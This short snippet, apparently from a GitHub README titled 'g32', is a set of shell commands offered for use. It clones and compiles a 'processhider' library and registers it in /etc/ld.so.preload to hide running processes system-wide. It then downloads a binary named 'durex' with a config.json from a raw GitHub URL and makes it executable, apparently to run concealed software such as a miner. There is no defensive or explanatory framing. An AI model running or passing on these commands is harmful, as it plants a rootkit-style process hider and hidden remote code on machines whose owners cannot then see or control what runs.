 # g32

git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload 

#

wget https://raw.githubusercontent.com/bulboni/g32/main/durex \
&& wget https://raw.githubusercontent.com/bulboni/g32/main/config.json \
&& chmod +x durex
